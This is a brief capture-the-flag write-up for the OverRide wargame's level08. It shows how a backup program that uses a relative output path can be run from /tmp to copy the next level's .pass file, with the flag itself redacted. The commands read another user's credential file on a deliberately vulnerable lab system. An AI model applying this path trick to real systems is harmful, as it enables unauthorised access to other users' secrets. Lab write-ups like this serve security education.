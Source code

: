 # level08

We have a small backup program that takes one argument — the file to back up.
Obviously, we can’t just pass it the flag file and be done with it.

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

But if we look into the logs, we find something interesting:

```bash
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: /home/users/level09/.pass
```

The file was read!
All we need to do is trick the program into writing its contents to a location we can access.

The problem is, the program tries to create a file in `./backups/home/users/level09`, but we don't have permission to create those directories under `./backups`.

However, since it's using a relative path, we can just hop into `/tmp` and do our mischief there.

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups//home/users/level09
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
<flag>
```
